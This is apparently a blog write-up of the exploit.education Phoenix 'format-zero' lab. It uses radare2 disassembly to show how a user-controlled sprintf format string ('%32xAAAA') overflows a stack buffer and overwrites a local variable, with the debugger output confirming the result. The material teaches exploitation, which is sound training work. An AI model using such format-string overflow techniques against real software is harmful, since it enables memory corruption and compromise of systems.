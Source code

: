 ```yaml
---
layout: post
title:  "Phoenix x86 Format Zero"
date: "2019-10-16 18:21:00 +0300"
categories: exploit-education phoenix x86
---
```


This series of format levels is all about exploiting format strings and the first level introduces a simple format string vulnerability.

{% highlight shell %}
$ rabin2 -I /opt/phoenix/i486/format-zero 
arch     x86
baddr    0x8048000
binsz    3736
bintype  elf
bits     32
canary   false
class    ELF32
compiler GCC: (GNU) 7.3.0
crypto   false
endian   little
havecode true
intrp    /opt/phoenix/i486-linux-musl/lib/ld-musl-i386.so.1
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  Intel 80386
maxopsz  16
minopsz  1
nx       false
os       linux
pcalign  0
pic      false
relocs   true
relro    no
rpath    /opt/phoenix/i486-linux-musl/lib
sanitiz  false
static   false
stripped false
subsys   linux
va       true
{% endhighlight %}

It seems that the binary doesn't differ from the ones of the previous levels.

{% highlight shell %}
$ r2 /opt/phoenix/i486/format-zero 
{% endhighlight %}

{% highlight shell %}
[0xf7ee6d4b]> aas
Cannot analyze at 0x08048620
[0xf7ee6d4b]> afl
0x0804831c    1 17           sym._init
0x080484f0    7 277  -> 112  sym.frame_dummy
0x080485e0    5 49           sym.__do_global_ctors_aux
0x08049878    1 1924         obj.stdin
0x08048611    1 12           sym._fini
0x08048470    8 113  -> 111  sym.__do_global_dtors_aux
0x08048114   54 556  -> 674  sym..interp
0x080483a0    1 62           entry0
0x08048390    1 6            sym.imp.__libc_start_main
0x08048708    1 14           loc.__GNU_EH_FRAME_HDR
0x08048724    3 34           sym..eh_frame
0x08049798    1 2145         obj._DYNAMIC
0x08048760    1 10           obj.__EH_FRAME_BEGIN
0x080483e0    4 49   -> 40   sym.deregister_tm_clones
0x0804978c    1 4            obj.__CTOR_END
0x08048784    1 4            obj.__FRAME_END
0x08049794    1 2149         obj.__DTOR_END
0x08048535    6 156          main
0x08048350    1 6            sym.imp.puts
0x08048340    1 6            sym.imp.fgets
0x08048360    1 6            sym.imp.errx
0x08048370    1 6            sym.imp.sprintf
0x08048380    1 6            sym.imp.exit
[0xf7ee6d4b]> s main
[0x08048535]> pdf
/ (fcn) main 156
|   int main (int argc, char **argv, char **envp);
|           ; var int32_t var_3ch @ ebp-0x3c
|           ; var int32_t var_2dh @ ebp-0x2d
|           ; var int32_t var_2ch @ ebp-0x2c
|           ; var int32_t var_ch @ ebp-0xc
|           ; arg int32_t arg_4h @ esp+0x4
|           ; DATA XREF from entry0 @ 0x80483d4
|           0x08048535      8d4c2404       lea ecx, [arg_4h]
|           0x08048539      83e4f0         and esp, 0xfffffff0
|           0x0804853c      ff71fc         push dword [ecx - 4]
|           0x0804853f      55             push ebp
|           0x08048540      89e5           mov ebp, esp
|           0x08048542      51             push ecx
|           0x08048543      83ec44         sub esp, 0x44
|           0x08048546      83ec0c         sub esp, 0xc
|           0x08048549      6820860408     push str.Welcome_to_phoenix_format_zero__brought_to_you_by_https:__exploit.education ; sym..rodata
|                                                                      ; 0x8048620 ; "Welcome to phoenix/format-zero, brought to you by https://exploit.education"
|           0x0804854e      e8fdfdffff     call sym.imp.puts           ; int puts(const char *s)
|           0x08048553      83c410         add esp, 0x10
|           0x08048556      a178980408     mov eax, dword [obj.stdin]  ; obj.__TMC_END
|                                                                      ; [0x8049878:4]=0
|           0x0804855b      83ec04         sub esp, 4
|           0x0804855e      50             push eax
|           0x0804855f      6a0f           push 0xf                    ; 15
|           0x08048561      8d45c4         lea eax, [var_3ch]
|           0x08048564      50             push eax
|           0x08048565      e8d6fdffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
|           0x0804856a      83c410         add esp, 0x10
|           0x0804856d      85c0           test eax, eax
|       ,=< 0x0804856f      750f           jne 0x8048580
|       |   0x08048571      83ec08         sub esp, 8
|       |   0x08048574      686c860408     push str.Unable_to_get_buffer ; 0x804866c ; "Unable to get buffer"
|       |   0x08048579      6a01           push 1                      ; 1
|       |   0x0804857b      e8e0fdffff     call sym.imp.errx           ; void errx(int eval)
|       `-> 0x08048580      c645d300       mov byte [var_2dh], 0
|           0x08048584      c745f4000000.  mov dword [var_ch], 0
|           0x0804858b      83ec08         sub esp, 8
|           0x0804858e      8d45c4         lea eax, [var_3ch]
|           0x08048591      50             push eax
|           0x08048592      8d45d4         lea eax, [var_2ch]
|           0x08048595      50             push eax
|           0x08048596      e8d5fdffff     call sym.imp.sprintf        ; int sprintf(char *s, const char *format, ...)
|           0x0804859b      83c410         add esp, 0x10
|           0x0804859e      8b45f4         mov eax, dword [var_ch]
|           0x080485a1      85c0           test eax, eax
|       ,=< 0x080485a3      7412           je 0x80485b7
|       |   0x080485a5      83ec0c         sub esp, 0xc
|       |   0x080485a8      6884860408     push str.Well_done__the__changeme__variable_has_been_changed ; 0x8048684 ; "Well done, the 'changeme' variable has been changed!"
|       |   0x080485ad      e89efdffff     call sym.imp.puts           ; int puts(const char *s)
|       |   0x080485b2      83c410         add esp, 0x10
|      ,==< 0x080485b5      eb10           jmp 0x80485c7
|      |`-> 0x080485b7      83ec0c         sub esp, 0xc
|      |    0x080485ba      68bc860408     push str.Uh_oh___changeme__has_not_yet_been_changed._Would_you_like_to_try_again ; 0x80486bc ; "Uh oh, 'changeme' has not yet been changed. Would you like to try again?"
|      |    0x080485bf      e88cfdffff     call sym.imp.puts           ; int puts(const char *s)
|      |    0x080485c4      83c410         add esp, 0x10
|      |    ; CODE XREF from main @ 0x80485b5
|      `--> 0x080485c7      83ec0c         sub esp, 0xc
|           0x080485ca      6a00           push 0
\           0x080485cc      e8affdffff     call sym.imp.exit           ; void exit(int status)
[0x08048535]> agf
[0x08048535]>  # int main (int argc, char **argv, char **envp);
    .-----------------------------------------------------------------------------------------.
    |  0x8048535                                                                              |
    | (fcn) main 156                                                                          |
    |   int main (int argc, char **argv, char **envp);                                        |
    | ; var int32_t var_3ch @ ebp-0x3c                                                        |
    | ; var int32_t var_2dh @ ebp-0x2d                                                        |
    | ; var int32_t var_2ch @ ebp-0x2c                                                        |
    | ; var int32_t var_ch @ ebp-0xc                                                          |
    | ; arg int32_t arg_4h @ esp+0x4                                                          |
    | ; DATA XREF from entry0 @ 0x80483d4                                                     |
    | lea ecx, [arg_4h]                                                                       |
    | and esp, 0xfffffff0                                                                     |
    | push dword [ecx - 4]                                                                    |
    | push ebp                                                                                |
    | mov ebp, esp                                                                            |
    | push ecx                                                                                |
    | sub esp, 0x44                                                                           |
    | sub esp, 0xc                                                                            |
    | ; sym..rodata                                                                           |
    | ; 0x8048620                                                                             |
    | ; "Welcome to phoenix/format-zero, brought to you by https://exploit.education"         |
    | push str.Welcome_to_phoenix_format_zero__brought_to_you_by_https:__exploit.education    |
    | ; int puts(const char *s)                                                               |
    | call sym.imp.puts;[oa]                                                                  |
    | add esp, 0x10                                                                           |
    | ; obj.__TMC_END                                                                         |
    | ; [0x8049878:4]=0                                                                       |
    | mov eax, dword [obj.stdin]                                                              |
    | sub esp, 4                                                                              |
    | push eax                                                                                |
    | ; 15                                                                                    |
    | push 0xf                                                                                |
    | lea eax, [var_3ch]                                                                      |
    | push eax                                                                                |
    | ; char *fgets(char *s, int size, FILE *stream)                                          |
    | call sym.imp.fgets;[ob]                                                                 |
    | add esp, 0x10                                                                           |
    | test eax, eax                                                                           |
    | jne 0x8048580                                                                           |
    `-----------------------------------------------------------------------------------------'
            f t
            | |
            | '-------------------------------------.
            |                                       |
            |                                       |
        .----------------------------------.    .-------------------------------------------------.
        |  0x8048571                       |    |  0x8048580                                      |
        | sub esp, 8                       |    | mov byte [var_2dh], 0                           |
        | ; 0x804866c                      |    | mov dword [var_ch], 0                           |
        | ; "Unable to get buffer"         |    | sub esp, 8                                      |
        | push str.Unable_to_get_buffer    |    | lea eax, [var_3ch]                              |
        | ; 1                              |    | push eax                                        |
        | push 1                           |    | lea eax, [var_2ch]                              |
        | ; void errx(int eval)            |    | push eax                                        |
        | call sym.imp.errx;[oc]           |    | ; int sprintf(char *s, const char *format, ...) |
        `----------------------------------'    | call sym.imp.sprintf;[od]                       |
                                                | add esp, 0x10                                   |
                                                | mov eax, dword [var_ch]                         |
                                                | test eax, eax                                   |
                                                | je 0x80485b7                                    |
                                                `-------------------------------------------------'
                                                        f t
                                                        | |
                                                        | '---------------.
    .---------------------------------------------------'                 |
    |                                                                     |
.-----------------------------------------------------------------.   .-------------------------------------------------------------------------------------.
|  0x80485a5                                                      |   |  0x80485b7                                                                          |
| sub esp, 0xc                                                    |   | sub esp, 0xc                                                                        |
| ; 0x8048684                                                     |   | ; 0x80486bc                                                                         |
| ; "Well done, the 'changeme' variable has been changed!"        |   | ; "Uh oh, 'changeme' has not yet been changed. Would you like to try again?"        |
| push str.Well_done__the__changeme__variable_has_been_changed    |   | push str.Uh_oh___changeme__has_not_yet_been_changed._Would_you_like_to_try_again    |
| ; int puts(const char *s)                                       |   | ; int puts(const char *s)                                                           |
| call sym.imp.puts;[oa]                                          |   | call sym.imp.puts;[oa]                                                              |
| add esp, 0x10                                                   |   | add esp, 0x10                                                                       |
| jmp 0x80485c7                                                   |   `-------------------------------------------------------------------------------------'
`-----------------------------------------------------------------'       v
    v                                                                     |
    |                                                                     |
    '--------------------------------------------------------.            |
                                                             | .----------'
                                                             | |
                                                       .-----------------------------------.
                                                       |  0x80485c7                        |
                                                       | ; CODE XREF from main @ 0x80485b5 |
                                                       | sub esp, 0xc                      |
                                                       | push 0                            |
                                                       | ; void exit(int status)           |
                                                       | call sym.imp.exit;[oe]            |
                                                       `-----------------------------------'
{% endhighlight %}

Here are the key takeaways by disassembling the binary:
* There is a call to `fgets` that saves the input, which is read from *STDIN*, to a local variable, `var_3ch`, and restricts the size to 15 bytes.
* There is a call to `sprintf` that takes `var_3ch` as a format string and sends the formatted output to another local variable, `var_2ch`.
* The objective is to overwrite the local variable `var_ch`.

As can be seen from the above info, the variable `var_3ch` has a size of 16 bytes, considering that the next variable on the stack is `var_2ch` and `0x3c-0x2c=0x10`. The same applies to `var_2ch`, `0x2c-0xc=0x20` which is 32 bytes.

In order to overwrite `var_ch`, `var_2ch` needs to be overflown. To do that, one can simply use the `%x` or `%X` specifier. The aforementioned specifier is used to output unsigned hexadecimal integers. In this case, the output will be sent to `var_2ch` and to overflow it the amount of the specifiers needs to be more than 32. Note that `fgets` restricts the size to 15 bytes and to circumvent that, one can append `32` right after the percentage.

{% highlight shell %}
$ r2 -d /opt/phoenix/i486/format-zero
{% endhighlight %}

{% highlight nasm %}
[0xf7f72d4b]> aas
Cannot analyze at 0x08048620
[0x08048535]> db 0x08048596
[0x08048535]> dc
Welcome to phoenix/format-zero, brought to you by https://exploit.education
%32xAAAA
hit breakpoint at: 8048596
[0x08048596]> px/16xw 0xffb4f338-0x3c
0xffb4f2fc  0x78323325 0x41414141 0xf7fa000a 0x00000000  %32xAAAA........
0xffb4f30c  0x080482ec 0x00000000 0x00000000 0x00000000  ................
0xffb4f31c  0x00000000 0x00000000 0x00000000 0x00000000  ................
0xffb4f32c  0x00000000 0x00000000 0xffb4f350 0xffb4f3cc  ........P.......
[0x08048596]> px/xw 0xffb4f338-0xc
0xffb4f32c  0x00000000                                   ....
[0x08048596]> dso
hit breakpoint at: 804859b
[0x08048596]> px/16xw 0xffb4f338-0x3c
0xffb4f2fc  0x78323325 0x41414141 0xf7fa000a 0x00000000  %32xAAAA........
0xffb4f30c  0x20202020 0x20202020 0x20202020 0x20202020                  
0xffb4f31c  0x20202020 0x20202020 0x61663766 0x30343138          f7fa8140
0xffb4f32c  0x41414141 0x0000000a 0xffb4f350 0xffb4f3cc  AAAA....P.......
[0x08048596]> px/xw 0xffb4f338-0xc
0xffb4f32c  0x41414141                                   AAAA
[0x08048596]> dc
Well done, the 'changeme' variable has been changed!
{% endhighlight %}

## Conclusion
In this level the user can control the format string of `sprintf` and, by having that control, it could lead to stack-based buffer overflow.